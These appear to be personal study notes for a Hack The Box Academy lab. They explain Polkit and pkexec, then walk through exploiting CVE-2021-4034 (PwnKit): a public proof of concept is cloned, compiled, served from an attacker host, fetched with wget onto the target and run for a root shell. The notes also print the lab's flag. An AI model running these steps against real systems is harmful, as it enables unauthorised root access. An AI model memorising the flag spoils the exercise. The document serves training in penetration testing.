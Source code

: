 ```yaml
---
description: >-
  an authorization service on Linux-based operating systems that allows user
  software and system components to communicate with each other if the user
  software is authorized to do so.
---
```


# Polkit

Polkit works with two groups of files.

1. actions/policies (`/usr/share/polkit-1/actions`)
2. rules (`/usr/share/polkit-1/rules.d`)

Polkit also has `local authority` rules which can be used to set or remove additional permissions for users and groups. Custom rules can be placed in the directory `/etc/polkit-1/localauthority/50-local.d` with the file extension `.pkla`.

PolKit also comes with three additional programs:

* `pkexec` - runs a program with the rights of another user or with root rights
* `pkaction` - can be used to display actions
* `pkcheck` - this can be used to check if a process is authorized for a specific action

```shell-session
cry0l1t3@nix02:~$ # pkexec -u <user> <command>
cry0l1t3@nix02:~$ pkexec -u root id

uid=0(root) gid=0(root) groups=0(root)
```

In the `pkexec` tool, the memory corruption vulnerability with the identifier [CVE-2021-4034](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-4034) was found, also known as [Pwnkit](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034) and also leads to privilege escalation.

```shell-session
cry0l1t3@nix02:~$ git clone https://github.com/arthepsy/CVE-2021-4034.git
cry0l1t3@nix02:~$ cd CVE-2021-4034
cry0l1t3@nix02:~$ gcc cve-2021-4034-poc.c -o poc
```

we can execute it without further ado. After the execution, we change from the standard shell (`sh`) to Bash (`bash`) and check the user's IDs.

## Assessment

Escalate the privileges and submit the contents of flag.txt as the answer.

**On attack machine**

```
┌──(kali㉿kali)-[~/Desktop/htb_academy/pri_esc_linux]
└─$ git clone https://github.com/arthepsy/CVE-2021-4034.git
Cloning into 'CVE-2021-4034'...
remote: Enumerating objects: 18, done.
remote: Counting objects: 100% (4/4), done.
remote: Compressing objects: 100% (4/4), done.
remote: Total 18 (delta 2), reused 0 (delta 0), pack-reused 14
Receiving objects: 100% (18/18), 4.79 KiB | 1.20 MiB/s, done.
Resolving deltas: 100% (3/3), done.
                                                                                                                    
┌──(kali㉿kali)-[~/Desktop/htb_academy/pri_esc_linux]
└─$ cd CVE-2021-4034
                                                                                                                    
┌──(kali㉿kali)-[~/Desktop/htb_academy/pri_esc_linux/CVE-2021-4034]
└─$ gcc cve-2021-4034-poc.c -o poc -static
                                                                                                                    
┌──(kali㉿kali)-[~/Desktop/htb_academy/pri_esc_linux/CVE-2021-4034]
└─$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.205.113 - - [17/Jul/2023 03:38:50] "GET /poc HTTP/1.1" 200 -

```

**On target machine**

```
htb-student@ubuntu:~$ wget http://10.10.14.5:8000/poc
--2023-07-17 07:38:51--  http://10.10.14.5:8000/poc
Connecting to 10.10.14.5:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 772592 (754K) [application/octet-stream]
Saving to: ‘poc’

poc                          100%[==============================================>] 754.48K   384KB/s    in 2.0s    

2023-07-17 07:38:53 (384 KB/s) - ‘poc’ saved [772592/772592]

htb-student@ubuntu:~$ chmod +x poc
htb-student@ubuntu:~$ ./poc
# id
uid=0(root) gid=0(root) groups=0(root),1001(htb-student)
# bash
root@ubuntu:/home/htb-student# cat /root/flag.txt 
HTB{p0Lk1tt3n}

```




